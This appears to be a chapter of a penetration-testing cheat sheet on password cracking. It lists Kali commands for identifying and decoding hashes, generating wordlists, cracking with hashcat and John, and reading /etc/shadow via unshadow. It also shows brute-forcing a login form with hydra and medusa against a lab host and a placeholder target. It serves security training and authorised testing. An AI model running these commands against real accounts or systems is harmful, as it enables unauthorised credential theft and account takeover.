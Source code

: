 Chapter 7 - Cracking

> The time to crack a password is related to bit strength, which is a measure of the password's entropy and the details of how the password is stored. Most methods of password cracking require the computer to produce many candidate passwords, each of which is checked. One example is brute-force cracking, in which a computer tries every possible key or password until it succeeds. More common methods of password cracking, such as dictionary attacks, pattern checking, word list substitution, etc. attempt to reduce the number of trials required and will usually be attempted before brute force. Higher password bit strength exponentially increases the number of candidate passwords that must be checked, on average, to recover the password and reduces the likelihood that the password will be found in any cracking dictionary.
>
> _**— Wikipedia**_

looking for contributions to this section. Please DM me on [Twitter](https://twitter.com/dostoevskylabs)

#### Hash Identification

```
Kali> hash-identifier
> HASH64256BLOOBLAHHAHAHEHE
```

#### Decoding

```
Kali> echo"BASE64"| base64 -d
Kali> echo"d3 4d b3 3f"| xxd -r -ps
```

#### Wordlist Generation

###### Crunch

```
Kali>
 crunch 6 6 0123456789ABCDEF -o crunch.txt
```

###### CEWL

```
Kali> cewl www.wikipedia.com -m 6 -w passwords.txt
```

###### John

```
Kali> nano /etc/john/john.conf
Kali> john --wordlist=passwords.txt --rules --stdout > mutated
```

#### Hashcat

```
Kali> hashcat -m 400 -a 0 hash /usr/share/wordlists/rockyou.txt
Kali> oclHashcat64.bin -m 110 hash.txt ../wordlist.txt --force
```

#### Converting for John attacks

```
Kali> ssh2john file > newfile
Kali> unshadow /etc/passwd /etc/shadow > unshadowed.txt
```

#### John

```
Kali> john crackfile --wordlist=/usr/share/wordlists/rockyou.txt
```

#### BruteForcing

###### Hydra

```
Kali> hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password" -V -I
```

###### Medusa

```
Kali> medusa -h $TARGET -u admin -P passwords.txt -M http -m DIR:/admin -T 10
```
